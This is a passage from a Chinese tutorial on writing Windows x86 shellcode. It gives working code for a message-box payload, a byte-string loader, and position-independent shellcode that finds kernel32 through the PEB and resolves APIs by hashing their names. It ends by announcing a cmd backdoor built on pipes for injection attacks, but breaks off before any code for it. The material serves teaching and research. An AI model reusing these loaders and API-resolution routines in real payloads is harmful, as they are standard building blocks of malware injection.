> 小提示：小端序（Little Endian）是一种数据存储方式，在汇编语言中，小端序的表示方式与高位字节优先（Big Endian）相反。例如，对于一个16位的整数0x1234，它在小端序的存储方式下，将会被存储为0x340x12（低位字节先存储）；而在高位字节优先的存储方式下，将会被存储为0x120x34（高位字节先存储）。

```C
-------------------------------------------------------------
压入字符串 alert
-------------------------------------------------------------
push 0x20202174
push 0x72656c61

-------------------------------------------------------------
压入字符串 hello lyshark
-------------------------------------------------------------
push 0x2020206b
push 0x72616873
push 0x796c206f
push 0x6c6c6568
```

既然字符串压入堆栈的功能有了，那么下面问题来了，我们如何获取这两个字符串的地址，从而让其成为`MessageBox()`的参数呢？

其实这个问题也不难，我们可以利用`esp`指针，因为它始终指向的是栈顶的位置，我们将字符压入堆栈后，栈顶位置就是我们所压入的字符的位置，于是在每次字符压栈后，可以加入如下指令，依次将第一个字符串基地址保存至`eax`寄存器中，将第二个基地址保存至`ecx`寄存器中。
```C
xor ebx,ebx                 // 清空寄存器
push 0x20202174             // 字符串 alert 
push 0x72656c61
mov eax,esp                 // 获取第一个字符串的地址

push ebx                    // 压入00为了将两个字符串分开

push 0x2020206b             // 字符串 hello lyshark
push 0x72616873
push 0x796c206f
push 0x6c6c6568
mov ecx,esp                 // 获取第二个字符串的地址
```
上方汇编指令完成压栈以后，接下来我们就可以调用`MessageBoxA`函数了，其调用代码如下。
```c
push ebx                             // push 0
push eax                             // push "alert"
push ecx                             // push "hello lyshark !"
push ebx                             // push 0
mov eax,0x75ac0ba0                   // 将MessageBox地址赋值给EAX
call eax                             // 调用 MessageBox
```

#### 1.4.3 ShellCode提取与应用

通过上方的实现流程，我们的`ShellCode`就算开发完成了，接下来读者只需要将上方`ShellCode`整理成一个可执行文件并编译即可。
```C
#include <iostream>

int main(int argc, char *argv[])
{
    _asm
    {
        sub esp, 0x50          // 抬高栈顶，防止冲突
        xor ebx, ebx           // 清空ebx
        push ebx
        push 0x20202174
        push 0x72656c61        // 字符串 "alert"
        mov eax, esp           // 获取栈顶
        push ebx               // 填充00 截断字符串

        push 0x2020206b
        push 0x72616873
        push 0x796c206f
        push 0x6c6c6568         // 字符串 hello lyshark
        mov ecx, esp            // 获取第二个字符串的地址

        push ebx
        push eax
        push ecx
        push ebx
        mov eax, 0x75ac0ba0    // 获取MessageBox地址
        call eax               // call MessageBox

        push ebx
        mov eax, 0x76c84100   // 获取ExitProcess地址
        call eax              // call ExitProcess
    }
    return 0;
}
```

接下来就是需要手动提取此处汇编指令的特征码，本案例中我们可以通过`x64dbg`中的`LyScript`插件实现提取，首先载入被调试进程，然后寻找到如下所示的特征位置，当遇到`Call`时，则通过F7进入到内部，如下图所示；



如下图中所示，就是我们所需要的汇编指令集，也就是我们自己的`ShellCode`代码片段，内存地址为`0x002D12A0`转换为十进制为`2953888`



通过LyScript插件并编写如下脚本，并将EIP位置设置为`eip = 2953888`运行这段代码；
```Python
from LyScript32 import MyDebug

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()
    ShellCode = []
    eip = 2953888

    for index in range(0, 100 - 1):
        read_code = dbg.read_memory_byte(eip + index)
        ShellCode.append(str(hex(read_code)))

    for index in ShellCode:
        print(index.replace("0x","\\x"),end="")
    dbg.close()
```

则可输出如下图所示的完整特征码，读者可自行将此处特征码格式化；



当然读者通过在`_asm`指令位置设置`F9`断点，并通过`F5`启动调试，如下图所示；



当调试器被断下时，通过按下`Ctrl+Alt+D`跳转至反汇编代码位置，并点击显示代码字节，同样可以实现提取，如下图所示；



我们直接将上方的这些机器码提取出来，从而编写出完整的ShellCode，最终测试代码如下。

```C
#include <windows.h>
#include <stdio.h>
#include <string.h>

#pragma comment(linker,"/section:.data,RWE")

unsigned char shellcode[] = "\x83\xec\x50"
"\x33\xdb"
"\x53"
"\x68\x74\x21\x20\x20"
"\x68\x61\x6c\x65\x72"
"\x8b\xc4"
"\x53"
"\x68\x6b\x20\x20\x20"
"\x68\x73\x68\x61\x72"
"\x68\x6f\x20\x6c\x79"
"\x68\x68\x65\x6c\x6c"
"\x8b\xcc"
"\x53"
"\x50"
"\x51"
"\x53"
"\xb8\xa0\x0b\xac\x75"
"\xff\xd0"
"\x53"
"\xb8\x00\x41\xc8\x76"
"\xff\xd0";

int main(int argc, char **argv)
{
    LoadLibrary("user32.dll");
    __asm
    {
        lea eax, shellcode
        call eax
    }
    return 0;
}
```

上方代码经过编译以后，运行会弹出一个我们自己`DIY`的`MessageBox`提示框，输出效果图如下所示；



### 1.5 编写自定位ShellCode弹窗

在笔者上一篇文章中简单的介绍了如何运用汇编语言编写一段弹窗代码，虽然简易`ShellCode`可以被正常执行，但却存在很多问题，由于采用了硬编址的方式来调用相应API函数的，那么就会存在一个很大的缺陷，如果操作系统的版本不统或系统重启过，那么基址将会发生变化，此时如果再次调用基址参数则会调用失败，本章将解决这个棘手的问题，通过`ShellCode`动态定位的方式解决这个缺陷，并以此设计出真正符合规范的`ShellCode`代码片段。

自定位代码是一种常见的`Shellcode`技术，它使`Shellcode`能够在任何系统上运行，而无需考虑系统内存布局和代码地址等问题。以下是Shellcode自定位代码的流程：

 - 1.查找Kernel32.dll基址并在其中寻找LoadLibraryA
 - 2.计算函数名hash摘要并通过hash摘要判断函数
 - 3.解析Kernel32.dll导出表
 - 4.最终动态调用系列函数

#### 1.5.1 动态查找Kernel32基址

首先我们需要通过汇编的方式来实现动态定位`Kernel32.dll`中的基址，你或许会有个疑问? 为什么要查找`Kernel32.dll`的地址而不是`User32.dll`，这是因为我们最终的目的是调用`MessageBoxA`这个函数，而该函数位于 `User32.dll`这个动态链接库里，在某些程序中User32模块并不一定会被加载，而Kernel32则必然会被加载，为了能够调用`MessageBoxA`函数，我们就需要调用`LoadLibraryA`函数来加载`User32.dll`这个模块，而`LoadLibraryA`恰巧又位于`kernel32.dll`中，因此我们只需要找到`LoadLibraryA`函数，即可实现加载任意的动态链接库，并调用任意的函数的目的。

由于我们需要动态获取`LoadLibraryA()`以及`ExitProcess()`这两个函数的地址，而这两个函数又是存在于`kernel32.dll`中的，因此这里需要先找到`kernel32.dll`的基址，然后通过对其进行解析，从而查找两个函数的动态地址。动态的查找`Kernel32.dll`的地址可总结为如下：

 - 1.首先通过段`选择子FS`在内存中找到当前进程内的线程环境块结构体指针TEB。
 - 2.线程环境块偏移位置为`fs:[0x30]`的位置处存放着指向进程环境块PEB结构的指针。
 - 3.进程环境块PEB偏移为`0x0c`的地址处存放着指向`PEB_LDR_DATA`的结构体指针。
 - 4.而在`PEB_LDR_DATA`偏移`0x1c`的地址处存放着指向`Ldr.InMemoryOrderModuleList`模块初始化链表的头指针。
 - 5.在初始化链表中存放的就是所有进程的模块信息，通过将偏移值加`0x08`读者即可获取到`kernel32.dll`的基地址。

既然有了固定的查询定位公式，接下我们就使用`WinDBG`调试器来手工完成对`Kernel32.dll`地址的定位：

> 小提示：Windbg是Windows Debugger的缩写，是一种微软提供的免费调试器工具，用于分析和调试Windows操作系统和应用程序。Windbg可以在不重启系统的情况下，通过连接到正在运行的进程或者操作系统内核，获取并分析程序的运行信息、内存状态、寄存器状态、线程状态、调用堆栈等数据，并可以使用符号文件来解析程序中的符号名，从而帮助开发者定位问题和进行深入调试。

读者可通过附件获取到`WinDBG`程序，当用户打开`WinDBG`时读者可通过`Ctrl+E`快捷键任意打开一个可执行程序，接着我们开始寻找吧；

1.通过`段选择子FS`在内存中找到当前的线程环境块`TEB`。这里可以利用本地调试，并输入`!teb`指令，读者可看到如下输出：

> 小提示：TEB（Thread Environment Block）是Windows操作系统中的一个重要数据结构，每个进程都有一个对应的TEB。它主要用于存储线程的环境信息和状态，包括线程局部存储（TLS）指针、异常处理链、堆栈信息、Fiber信息等。TEB由Windows内核自动创建和管理，可以通过系统调用和调试器工具来访问和修改其内容。



如上线程环境块偏移位置为`0x30`的地方存放着指向`进程环境块PEB`的指针。结合上图可见，当前`PEB`的地址为`002bb000`



> 小提示：PEB是Windows操作系统的进程环境块（Process Environment Block）的缩写。PEB是一个数据结构，其中包含了关于进程的许多信息，例如进程的模块、堆、线程等等。PEB由操作系统内核在创建进程时分配和初始化，并且只有在进程运行期间才可用。

2.在进程环境块中偏移位置为`0x0c`的地方存放着指向`PEB_LDR_DATA`结构体的指针，其中存放着已经被进程装载的动态链接库的信息，如下图所示；



3.接着`PEB_LDR_DATA`结构体偏移位置为`0x1c`的地方存放着指向模块初始化链表的头指针`InInitializationOrderModuleList`，如下图所示；



4.模块初始化链表`InInitializationOrderModuleList`中按顺序存放着PE装入运行时初始化模块的信息，第一个链表节点是`ntdll.dll`，第二个链表结点就是`kernel32.dll`。我们可以先看看
`InInitializationOrderModuleList`中的内容：



上图中的`0x005a3ad8`保存的是第一个链节点的指针，解析一下这个结点，可发现如下地址：



上图中的`0x77200000`为`ntdll.dll`的模块基地址，而`0x005a4390`则是指向下一个模块的指针，我们继续跟随`0x005a4390`地址，则此处看到的标黄处是下一个模块`kernel32.dll`的基地址。



最后我们通过输入`!peb`命令，输出当前所有载入模块并验证一下：



既然有了如上所述的方法，那么读者可以很容易的实现这段功能，为了便于读者理解，笔者先提供一段使用C语言书写的实现方式，如下代码所示；
```C
#include <windows.h>
#include <stdio.h>

int main(int argc, char * argv[])
{
    DWORD *PEB = NULL;
    DWORD *Ldr = NULL;
    DWORD *Init = NULL;
    DWORD *Kernel32 = NULL;

    __asm
    {
        mov eax, fs:[0x30]
        mov PEB,eax
    }
    printf("得到PEB指针 = %x \n", PEB);

    Ldr = *(DWORD **)((unsigned char *)PEB + 0x0c);
    printf("得到LDR结构指针 = %x \n", Ldr);

    Init = *(DWORD **)((unsigned char *)Ldr + 0x1c);
    printf("得到InInitializationOrderModuleList结构指针 = %x \n", Init);

    Kernel32 = *(DWORD **)((unsigned char *)Init + 0x08);
    printf("得到Kernel32的基地址 = %x \n", Kernel32);

    system("pause");
    return 0;
}
```

运行输出效果如下图所示，读者可自行检查读取结果的准确性；



将此段代码翻译为汇编模式也很容易，如下是通过汇编实现的流程；
```C
    .386p
    .model flat,stdcall
    option casemap:none

include windows.inc
include kernel32.inc
includelib kerbcli.lib
assume fs:nothing

.code
    main PROC
        xor eax,eax
        xor edx,edx
        mov eax,fs:[30h]           ; 得到PEB结构地址
        mov eax,[eax + 0ch]        ; 得到PEB_LDR_DATA结构地址
        mov esi,[eax + 1ch]        ; 得到 InInitializationOrderModuleList
        lodsd                      ; 得到KERNEL32.DLL所在LDR_MODULE结构的
        mov eax,[eax]              ; Windows 7 以上要将这里打开
        mov edx,[eax + 8h]         ; 得到BaseAddress，既Kernel32.dll基址
        ret
    main ENDP
END main
```

#### 1.5.2 动态查找并枚举进程模块

在读者阅读过第一节中的内容时，相信您已经可以熟练的掌握`WinDBG`调试器的基本使用了，本节我们将扩展一个知识点，以让读者能更好的理解`WinDBG`调试命令，本次我们实现枚举进程模块的功能，本案例将不在解释基本功能。

通过`PEB/TEB`找到自身进程的所有载入模块数据，首先获取`TEB`线程环境块。在编程的时候，TEB始终保存在寄存器`FS`中。

> 得到LDR结构：`Ldr = *( ( DWORD ** )( ( unsigned char * )PEB + 0x0c ) );`



然后再找到`PEB`结构偏移为`0x30`从该命令的输出可以看出，PEB结构体的地址位于`TEB`结构体偏移`0x30`的位置处。



找到了`PEB`也就可以找到`_PEB_LDR_DATA`结构 其位于`PEB`偏移`0c`的位置上。

> Ldr = `*( ( DWORD ** )( ( unsigned char * )PEB + 0x0c ) );`



从输出结果可以看出，`LDR`在`PEB`结构体偏移的`0x0C`处，该地址保存的地址是`0x77325d80`通过该地址来解析`LDR`结构体。

> Flink = `*( ( DWORD ** )( ( unsigned char * )Ldr + 0x14 ) );`

位于LDR偏移14的位置就是InLoadOrderModuleList其所指向的就是模块名称表。



现在来手动遍历`[ 0x5a3bd0 - 0x5aa5b8 ]`第一条链表，输入命令`dd 0x5a3bd0`

链表偏移`0x18`的位置是模块的映射地址 ImageBase，链表偏移 `0x28` 的位置是模块的路径及名称的地址，链表偏移 `0x30` 的位置是模块名称的地址。



如上图中的输出结果，地址`005a2480`保存有当前模块详细路径信息，而`005a24ae`则保存有当前模块名，我们可以通过`du`命令来进行验证；



当读者需要读入下一个模块链表时，则需要访问`0x005a3ac8`这个内存地址，其中保存着下一个链表结构，依次遍历。



当然这个链表结构其实访问`InMemoryOrderModuleList`同样可以得到，这两个都指向同一片区域。



上方介绍的结构，是微软保留结构，只能从网上找到一个结构定义，根据该结构的定义做进一步解析即可。
```C
typedef struct _LDR_DATA_TABLE_ENTRY {
    PVOID Reserved1[2];
    LIST_ENTRY InMemoryOrderLinks;
    PVOID Reserved2[2];
    PVOID DllBase;
    PVOID EntryPoint;
    PVOID Reserved3;
    UNICODE_STRING FullDllName;
    BYTE Reserved4[8];
    PVOID Reserved5[3];
    union {
    ULONG CheckSum;
    PVOID Reserved6;
    };
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
```

根据如上分析细节，那么描述枚举模块列表的核心代码就可以写成如下案例；
```C
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[])
{
    DWORD *PEB = NULL, *Ldr = NULL, *Flink = NULL, *p = NULL;
    DWORD *BaseAddress = NULL, *FullDllName = NULL,*Ba = NULL;

    __asm
    {
        mov eax, fs:[0x30]
        mov PEB, eax
    }

    Ldr = *((DWORD **)((unsigned char *)PEB + 0x0c));
    Flink = *((DWORD **)((unsigned char *)Ldr + 0x14));
    p = Flink;

    p = *((DWORD **)p);
    while (Flink != p)
    {
        BaseAddress = *((DWORD **)((unsigned char *)p + 0x10));
        FullDllName = *((DWORD **)((unsigned char *)p + 0x20));

    if (BaseAddress == 0)
        break;

    printf("镜像基址 = %08x \n --> 模块路径 = %S \n", BaseAddress, (unsigned char *)FullDllName);

        p = *((DWORD **)p);
    }
    system("pause");
    return 0;
}
```

读者编译并运行该程序，则默认会枚举出当前模块所导入的所有模块信息，其输出效果如下图所示；



#### 1.5.3 计算函数Hash摘要值

案例介绍了如何使用Win32汇编语言和C语言计算字符串的`hash`摘要值。字符串的`hash`摘要值是通过一定的算法将字符串压缩为一个固定长度的十六进制数，用于在程序中进行快速的字符串比较。具体而言，该案例使用了循环移位hash计算法，并最终得到了字符串的 hash 值，并以十六进制数的形式输出。

读者一定有疑问为啥需要HASH压缩处理？ 原因是，如果直接将函数名压栈的话，我们就需要提供更多的空间来存储`ShellCode`代码，为了能够让我们编写的`ShellCode`代码更加的短小精悍，所以我们将要对字符串进行`hash`处理，将字符串压缩为一个十六进制数，这样只需要比较二者`hash`值就能够判断目标函数，尽管这样会引入额外的`hash`算法，但是却可以节省出存储函数名字的空间。

为了能让读者理解计算原理，此处我们先使用C语言做摘要计算描述，如下代码中的`GetHash`函数，该函数接受一个指向字符数组的指针，即一个字符串，然后对字符串进行哈希计算，并返回计算结果。

哈希计算的过程是通过循环遍历字符串中的每个字符，对其进行位运算和加法运算，最终得到一个`32`位的哈希值。对于字符串中的每个字符，程序首先将哈希值左移`25`位，然后将结果右移`7`位，相当于是对哈希值进行了循环右移`25`位。然后程序将该字符的`ASCII`值加到哈希值上。循环遍历完字符串中的所有字符后，哈希值即为最终的计算结果。
```C
#include <stdio.h>
#include <windows.h>

DWORD GetHash(char *fun_name)
{
    DWORD digest = 0;
    while (*fun_name)
    {
        digest = ((digest << 25) | (digest >> 7));
        digest += *fun_name;
        fun_name++;
    }
    return digest;
}

int main(int argc, char *argv[])
{
    DWORD MessageBoxHash;
    DWORD ExitProcessHash;
    DWORD LoadLibraryAHash;

    MessageBoxHash = GetHash("MessageBoxA");
    printf("MessageBoxHash = 0x%.8x\n", MessageBoxHash);

    ExitProcessHash = GetHash("ExitProcess");
    printf("ExitProcessHash = 0x%.8x\n", ExitProcessHash);

    LoadLibraryAHash = GetHash("LoadLibraryA");
    printf("LoadLibraryAHash = 0x%.8x\n", LoadLibraryAHash);

    system("pause");
    return 0;
}
```
运行上方C语言实现代码，则读者可以此获取到三个核心函数的Hash值，其输出效果如下图所示；



在理解了C语言版本的计算流程后，那么汇编语言版本的也应该很容易理解，如下是使用`Win32`汇编语言的实现过程，并在`MASM`上正常编译，汇编版字符串转换`Hash`值。
```C
    .386p
    .model flat,stdcall
    option casemap:none
    
include windows.inc
include kernel32.inc
include msvcrt.inc
includelib kernel32.lib
includelib msvcrt.lib

.data
    data db "MessageBoxA",0h
    Fomat db "0x%x",0
.code
    main PROC
        xor eax,eax               ; 清空eax寄存器
        xor edx,edx               ; 清空edx寄存器
        lea esi,data              ; 取出字符串地址
    loops:
        movsx eax,byte ptr[esi]   ; 每次取出一个字符放入eax中
        cmp al,ah                 ; 验证eax是否为0x0即结束符
        jz nops                   ; 为0则说明计算完毕跳转到nops
        ror edx,7                 ; 不为零,则进行循环右移7位
        add edx,eax               ; 将循环右移的值不断累加
        inc esi                   ; esi自增,用于读取下一个字符
        jmp loops                 ; 循环执行
    nops:
        mov eax,edx               ; 结果存在eax里面
        invoke crt_printf,addr Fomat,eax
        ret
    main ENDP
END main
```

#### 1.5.4 枚举Kernel32导出表

在文章开头部分我们通过`WinDBG`调试器已经找到了`Kernel32.dll`这个动态链接库的基地址，而Dll文件本质上也是PE文件，在Dll文件中同样存在导出表，其内部记录着该Dll的导出函数。接着我们需要对Dll文件的导出表进行遍历，不断地搜索，从而找到我们所需要的API函数，同样的可以通过如下定式获取到指定的导出表。

 - 1.从`kernel32.dll`加载基址算起，偏移`0x3c`的地方就是其PE文件头。
 - 2.PE文件头偏移`0x78`的地方存放着指向函数导出表的指针。
 - 3.导出表偏移`0x1c`处的指针指向存储导出函数偏移地址（RVA）的列表。
 - 4.导出表偏移`0x20`处的指针指向存储导出函数函数名的列表。

首先我们通过WinDBG来实现读取导入表及导出表试试，我们以读取`ole32.dll`为例，首先读者需要通过`lmvm ole32.dll`查询到该模块的入口地址，如图所示该模块的入口地址为`0x75830000`



解析DOS头，DOS头通过`_IMAGE_DOS_HEADER`结构被定义，在解析时读者应传入模块入口`0x75830000`地址，其次DOS头中`e_lfanew`字段指向了PE头，该字段需要注意；

 - 执行读入DOS头：`dt ole32!_IMAGE_DOS_HEADER 75830000`



解析PE头，PE头通过DOS头部的`e_lfanew`中存储的之加上模块基地址获取到，在本例中则是通过`75830000+0n264`获取到；

 - 读入PE头：`dt ole32!_IMAGE_NT_HEADERS 75830000+0n264`



接着需要在`_IMAGE_OPTIONAL_HEADER`可选头中找到`EXPORT`导出表基地址，通过PE头基址`75830108`加上`0x018`也就是`OptionalHeader`的偏移，即可定位到`DataDirectory[0]`也就是导出表基地址，其地址为`75830180`



根据上述定义，继续寻找`EXPORT`导出表的实际地址，需要注意的是`Evaluate expression`中的结果是根据`ole32`模块的基地址与`VirtualAddress`当前地址相加后得到的，如下图所示



当读者需要枚举特定模块时，则可通过模块基地址加上例如`Name`字段偏移值，来读入模块名称；



如果读者需要枚举所有导出函数，则读者可通过模块基地址加上`AddressOfNames`字段，并通过如下命令实现完整输出；

 - .foreach(place {dd 758e4088}){r @$t0=${place}+75830000; .if(@$t0<778e4088){da @$t0}}



导入表的枚举与导出表类似，为了节约篇幅此处只给出调试数据，读者可根据自己的掌握情况自行分析学习；
```C
# 根据模块基地址获取模块e_lfanew
0:000> dt ole32!_IMAGE_DOS_HEADER 0x75830000
   +0x000 e_magic          : 0x5a4d
   +0x028 e_res2           : [10] 0
   +0x03c e_lfanew         : 0n264

# 定位到NT头部
0:000> dt ole32!_IMAGE_NT_HEADERS 0x75830000 + 0n264
   +0x000 Signature        : 0x4550
   +0x004 FileHeader       : _IMAGE_FILE_HEADER
   +0x018 OptionalHeader   : _IMAGE_OPTIONAL_HEADER

# 基地址与e_lfanew相加得到OPTIONAL
0:000> ?0x75830000 + 0n264
Evaluate expression: 1971519752 = 75830108

# 查询OPTIONAL
0:000> dt ole32!_IMAGE_OPTIONAL_HEADER -v -ny DataDirectory 75830108+0x018
struct _IMAGE_OPTIONAL_HEADER, 31 elements, 0xe0 bytes
   +0x060 DataDirectory : [16] struct _IMAGE_DATA_DIRECTORY, 2 elements, 0x8 bytes

0:000> ? 75830108+0x018+0x60
Evaluate expression: 1971519872 = 75830180

# 得到数据目录表地址
0:000> dt ole32!_IMAGE_DATA_DIRECTORY 75830180+8
   +0x000 VirtualAddress   : 0xbd9f8
   +0x004 Size             : 0x460

0:000> ? 0x75830000+0xbd9f8
Evaluate expression: 1972296184 = 758ed9f8

# DataDirectory[1]即为导入表，地址为758ed9f8
0:000> dt ole32!_IMAGE_IMPORT_DESCRIPTOR 758ed9f8
   +0x000 Characteristics  : 0xbe700
   +0x000 OriginalFirstThunk : 0xbe700
   +0x004 TimeDateStamp    : 0
   +0x008 ForwarderChain   : 0
   +0x00c Name             : 0xbe87a
   +0x010 FirstThunk       : 0xbd8a8

0:000> da 0x75830000+0xbe87a
758ee87a  "api-ms-win-crt-string-l1-1-0.dll"

# 每一个_IMAGE_IMPORT_DESCRIPTOR的大小为0x14
0:000> ?? sizeof(_IMAGE_IMPORT_DESCRIPTOR)
unsigned int 0x14

# 也就是说，每次递增14即可输出下一个导入函数名
0:000> dt ole32!_IMAGE_IMPORT_DESCRIPTOR 758ed9f8+14
   +0x000 Characteristics  : 0xbe6f4
   +0x000 OriginalFirstThunk : 0xbe6f4
   +0x004 TimeDateStamp    : 0
   +0x008 ForwarderChain   : 0
   +0x00c Name             : 0xbe89c
   +0x010 FirstThunk       : 0xbd89c

0:000> da 0x75830000+0xbe89c
758ee89c  "api-ms-win-crt-runtime-l1-1-0.dl"

0:000> dt ole32!_IMAGE_IMPORT_DESCRIPTOR 758ed9f8+28
   +0x000 Characteristics  : 0xbe64c
   +0x000 OriginalFirstThunk : 0xbe64c
   +0x004 TimeDateStamp    : 0
   +0x008 ForwarderChain   : 0
   +0x00c Name             : 0xbeb88
   +0x010 FirstThunk       : 0xbd7f4
0:000> da 0x75830000+0xbeb88
758eeb88  "api-ms-win-crt-private-l1-1-0.dl"

# 分析第一个IID的IAT和INT
# 先看INT: IMAGE_THUNK_DATA其实就是一个DWORD,如IID一样，也是一个接一个，最后一个为NULL

第一个:
0:000> dd 0xbe6f4+0x75830000 L1
758ee6f4  000be86c

# 最高位不为1（为1表示为序号输入）指向_IMAGE_IMPORT_BY_NAME结构

.foreach(place {dd 758ee6f4}) {r @$t0 = ${place}+75830000+2; .if (@$t0<86d00000){da @$t0;}}
758ee86e  "_initterm_e"
758ee862  "_initterm"
75830002  "."
758eeb80  "memset"
758ee84e  "wcsncmp"
758ee858  "strcspn"
```

我们将问题回归到枚举导出表上，函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在列表定位任意函数的RVA地址，通过与动态链接库的基地址相加得到其真实的VA，而计算的地址就是我们最终在`ShellCode`中调用时需要的地址，其汇编核心枚举代码如下所示；
```C
#include <stdio.h>
#include <Windows.h>

int main(int argc, char * argv[])
{
    int a;
    __asm
    {
        mov ebx, dword ptr fs : [0x30]         ; 获取当前线程信息的地址
        mov ecx, dword ptr[ebx + 0xc]          ; 获取PEB结构体的地址
        mov ecx, dword ptr[ecx + 0x1c]         ; 获取PEB结构体中的LDR结构体的地址
        mov ecx, [ecx]                         ; 获取LDR结构体中的InMemoryOrderModuleList的头节点地址
        mov edx, [ecx + 0x8]                   ; 获取第一个模块的基址，即ntdll.dll的基址

        mov eax, [edx+0x3c]                    ; 获取PE头偏移地址
        mov ecx, [edx + eax + 0x78]            ; 获取导出表VA地址偏移
        add ecx,edx                            ; 将导出表的VA地址转换成绝对地址
        mov ebx, [ecx+0x20]                    ; 获取导出表中的导出函数名偏移数组的地址
        add ebx,edx                            ; 将函数名偏移数组的VA地址转换成绝对地址
        xor edi,edi                            ; 将edi清零，用于循环计数

    s1:
        inc edi                                ; 计数器自增1
        mov esi, [ebx+edi*4]                   ; 通过偏移获取导出函数名的地址
        add esi,edx                            ; 将导出函数名的VA地址转换成绝对地址

        cmp esi,edx                            ; 检查导出函数名的地址是否合法，如果等于基址则跳过
        je no
        loop s1                                ; 继续查找导出函数名

    no:
        xor eax,eax                            ; 清零eax寄存器，用于返回值
    }
    system("pause");
    return 0;
}
```

#### 1.5.5 整合自定位ShellCode

完整的汇编代码如下，下方代码是一个定式，这里就只做了翻译，使用编译器编译如下代码。
```C
#include <stdio.h>
#include <windows.h>

int main(int argc, char *argv)
{
    __asm
    {
        // 将索要调用的函数hash值入栈保存
            CLD                      // 清空标志位DF
            push 0x1E380A6A          // 压入MessageBoxA-->user32.dll
            push 0x4FD18963          // 压入ExitProcess-->kernel32.dll
            push 0x0C917432          // 压入LoadLibraryA-->kernel32.dll
            mov esi, esp             // 指向堆栈中存放LoadLibraryA的地址
            lea edi, [esi - 0xc]     // 后面会利用edi的值来调用不同的函数

            // 开辟内存空间,这里是堆栈空间
            xor ebx, ebx
            mov bh, 0x04       // ebx为0x400
            sub esp, ebx       // 开辟0x400大小的空间

            // 将user32.dll入栈
            mov bx, 0x3233
            push ebx           // 压入字符'32'
            push 0x72657375    // 压入字符 'user'
            push esp
            xor edx, edx        // edx=0

            // 查找kernel32.dll的基地址
            mov ebx, fs:[edx + 0x30]     // [TEB+0x30] -> PEB
            mov ecx, [ebx + 0xC]         // [PEB+0xC] -> PEB_LDR_DATA
            mov ecx, [ecx + 0x1C]        // [PEB_LDR_DATA+0x1C] -> InInitializationOrderModuleList
            mov ecx, [ecx]               // 进入链表第一个就是ntdll.dll
            mov ebp, [ecx + 0x8]         //ebp = kernel32.dll 的基地址

        // hash 的查找相关
        find_lib_functions :
                           lodsd                     // eax=[ds*10H+esi],读出来是LoadLibraryA的Hash
                           cmp eax, 0x1E380A6A       // 与MessageBoxA的Hash进行比较
                           jne find_functions        // 如果不相等则继续查找
                           xchg eax, ebp
                           call[edi - 0x8]
                           xchg eax, ebp

        // 在PE文件中查找相应的API函数
        find_functions :
        pushad
            mov eax, [ebp + 0x3C]        // 指向PE头
            mov ecx, [ebp + eax + 0x78]  // 导出表的指针
            add ecx, ebp                 // ecx=0x78C00000+0x262c
            mov ebx, [ecx + 0x20]        // 导出函数的名字列表
            add ebx, ebp                 // ebx=0x78C00000+0x353C
            xor edi, edi                 // 清空edi中的内容,用作索引

        // 循环读取导出表函数
        next_function_loop :
        inc edi                            // edi作为索引,自动递增
            mov esi, [ebx + edi * 4]       // 从列表数组中读取
            add esi, ebp                   // esi保存的是函数名称所在的地址
            cdq

        // hash值的运算过程
        hash_loop :
        movsx eax, byte ptr[esi]         // 每次读取一个字节放入eax
            cmp al, ah                   // eax和0做比较,即结束符
            jz compare_hash              // hash计算完毕跳转
            ror edx, 7
            add edx, eax
            inc esi
            jmp hash_loop
        // hash值的比较函数
        compare_hash :
        cmp edx, [esp + 0x1C]
            jnz next_function_loop         // 比较不成功则查找下一个函数
            mov ebx, [ecx + 0x24]          // ebx=序数表的相对偏移量
            add ebx, ebp                   // ebx=序数表的绝对地址
            mov di, [ebx + 2 * edi]        // di=匹配函数的序数
            mov ebx, [ecx + 0x1C]          // ebx=地址表的相对偏移量
            add ebx, ebp                   // ebx=地址表的绝对地址
            add ebp, [ebx + 4 * edi]       // 添加到EBP（模块地址库）
            xchg eax, ebp                  // 将func addr移到eax中    
            pop edi                        // edi是pushad中最后一个堆栈
            stosd
            push edi
            popad

            cmp eax, 0x1e380a6a             // 与MessageBox的hash值比较
            jne find_lib_functions

        // 下方的代码，就是我们的弹窗
        xor ebx, ebx          // 清空eb寄存器
            push ebx          // 截断字符串0

            push 0x2020206b
            push 0x72616873
            push 0x796c206f
            push 0x6c6c6568
            mov eax, esp

            push ebx          // push 0
            push eax          // push "hello lyshark"
            push eax          // push "hello lyshark"
            push ebx          // push 0
            call[edi - 0x04]  // call MessageBoxA

            push ebx          // push 0
            call[edi - 0x08]  // call ExitProcess
    }
    return 0;
}
```

运行后会弹出一个提示框`hello lyshark`说明我们成功了，此列代码就是所谓的自定位代码，该代码可以不依赖于系统环境而独立运行；



### 1.6 编写双管道ShellCode后门

本文将介绍如何将`CMD`绑定到双向管道上，这是一种常用的黑客反弹技巧，可以让用户在命令行界面下与其他程序进行交互，我们将从创建管道、启动进程、传输数据等方面对这个功能进行详细讲解。此外，本文还将通过使用汇编语言一步步来实现这个可被注入的`ShellCode`后门，并以此提高代码通用性。最终，我们将通过一个实际的漏洞攻击场景来展示如何利用这个后门实现内存注入攻击。

#### 1.6.1 什么是匿名管道

首先管道`（Pipe）`是一种IPC机制，用于在同一台计算机上进行进程间通信。它可以让一个进程将数据写入到管道中，然后另一个进程可以从管道中读取这些数据。一般而言管道可以分为匿名管道`（Anonymous Pipe）`或命名管道`（Named Pipe）`两种形式。

 - 匿名管道是一种临时的管道，只能用于父子进程之间或兄弟进程之间的通信。它是一个双向的、无名的、半双工的通道，只能在创建它的进程及其子进程之间进行通信。
 - 命名管道是一种具有名称的管道，可以用于在不同的进程之间进行通信。命名管道可以在不同的进程之间共享，并可以在多个进程之间传递数据。它可以是单向的或双向的，可以使用同步或异步方式进行通信。

在实现中，管道通常是由操作系统提供的一段共享内存区域。在管道创建时，操作系统会为管道分配一段内存区域，该内存区域由创建管道的进程和与其通信的进程共享。当进程往管道中写入数据时，数据会被存储在管道的内存缓冲区中，然后等待另一个进程从管道中读取数据。当另一个进程读取管道中的数据时，数据将从内存缓冲区中被读取并且被删除，从而保证数据传输的正确性和可靠性。

有了管道的支持，我们向其他进程传输数据时就可像对普通文件读写那样简单。管道操作的标识符是`HANDLE`句柄，当管道被正确创建时则，我们可以直接使用`ReadFile、WriteFile`等文件读写函数来读写它，读者无需了解网络间进程间通信的细节部分；

一般匿名管道的创建需要调用`CreatePipe()`函数实现，它可以创建一个管道，并返回两个句柄，一个用于读取管道数据，另一个用于写入管道数据。

